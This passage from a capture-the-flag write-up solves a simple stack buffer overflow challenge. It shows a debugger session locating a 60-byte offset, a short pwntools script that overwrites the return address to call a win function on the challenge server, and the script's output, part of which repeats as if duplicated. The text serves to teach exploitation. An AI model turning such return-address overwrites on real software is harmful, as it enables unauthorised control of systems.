 ```c
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "server", stopped 0x61616170 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search 0x61616170
[+] Searching '0x61616170'
[+] Found at offset 60 (little-endian search) likely
[+] Found at offset 57 (big-endian search) 
gef➤
```

Now we have an offset of 60 and the address of the win function which we want to call.

Just combining these together and sending this to the server will call the win function and give us the flag.

The following script will exploit it for us:

```python
from pwn import *

p = remote("thekidofarcrania.com", 4902)
padding = b"\x41"*60

win = 0x08048586

p.recv()

p.sendline(padding + p32(win))

p.interactive()
```

```python
root:pwn-simple-rip/ # python3 exploit.py 
[+] Opening connection to thekidofarcrania.com on port 4902: Done
[*] Switching to interactive mode
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffb80d20 | 00 00 00 00 00 00 00 00 |
0xffb80d28 | 00 00 00 00 00 00 00 00 |
0xffb80d30 | 00 00 00 00 00 00 00 00 |
0xffb80d38 | 00 00 00 00 00 00 00 00 |
0xffb80d40 | ff ff ff ff ff ff ff ff |
0xffb80d48 | ff ff ff ff ff ff ff ff |
0xffb80d50 | c0 a5 70 f7 00 a0 04 08 |
0xffb80d58 | 68 0d b8 ff 8b 86 04 08 |
Return address: 0x0804868b

Input some text: 
Legend: buff MODIFIED padding MODIFIED
[+] Opening connection to thekidofarcrania.com on port 4902: Done
[*] Switching to interactive mode
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffb80d20 | 00 00 00 00 00 00 00 00 |
0xffb80d28 | 00 00 00 00 00 00 00 00 |
0xffb80d30 | 00 00 00 00 00 00 00 00 |
```